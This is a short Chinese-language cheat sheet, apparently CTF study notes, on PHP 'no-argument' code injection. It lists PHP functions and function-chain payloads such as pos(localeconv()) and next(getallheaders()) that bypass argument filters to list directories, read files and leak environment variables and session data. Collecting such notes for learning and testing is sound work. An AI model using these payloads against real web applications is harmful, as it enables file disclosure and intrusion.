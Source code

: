 ## 无参数注入
- ```
  scandir 
  var_dump 
  show_source 
  localtime 
  time 
  current 
  chr 
  pos 
  end 
  next 
  prev 
  array_reverse 
  readfile
  
  ```
- ## 可用payload
- ```
  点
  pos(localeconv())
  next(str_split(zend_version()))
  1
  end(str_split(hebrevc(crypt(next(hash_algos())))))
  
  chr(ord(crypt(serialize(array()))))
  
  Ua
  next(getallheaders())
  ```
- ### 其他
- ```
  array_flip
  array_rand
  array_reverse
  current（pos）
  类似的还有：
  文件
  file_get_contents()
  将整个文件读入一个字符串
  readfile()[readgzfile()]
  读取文件并写入到输出缓冲。
  highlight_file()[别名：show_source()]
  语法高亮一个文件
  scandir()
  列出指定路径中的文件和目录
  direname()
  给出一个包含有指向一个文件的全路径的字符串，本函数返回去掉文件名后的目录名。
  2/19
  getcwd()
  取得当前工作目录。
  chdir($directory)
  将 PHP 的当前目录改为 directory。
  读取环境变量
  get_defined_vars()
  此函数返回一个包含所有已定义变量列表的多维数组，这些变量包括环境变量、服务器变量和用户定义
  的变量。
  getenv
  获取一个环境变量的值
  localeconv()
  返回一包含本地数字及货币格式信息的数组,第一个值一直是.
  phpversion()
  获取当前的 PHP 版本
  zend_version()
  获取当前的 zend 版本（配合 str_split()割出点）
  会话
  session_id
  获取/设置当前会话 ID
  session_start
  启动新会话或者重用现有会话
  ```
-